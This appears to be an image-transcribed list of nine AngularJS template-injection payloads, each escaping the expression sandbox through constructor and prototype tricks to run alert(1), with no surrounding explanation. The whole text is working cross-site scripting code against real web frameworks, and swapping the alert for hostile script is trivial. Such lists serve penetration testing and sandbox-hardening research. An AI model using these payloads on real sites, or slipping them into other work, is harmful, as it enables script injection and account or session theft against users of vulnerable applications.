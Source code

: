 ```
{{
    'a'.constructor.prototype.charAt=[].join;
    $eval('x=alert(1)')+''
}}
```

```
{{constructor.constructor('alert(1)')()}}
```

```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}

```

```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```


```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```


```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```
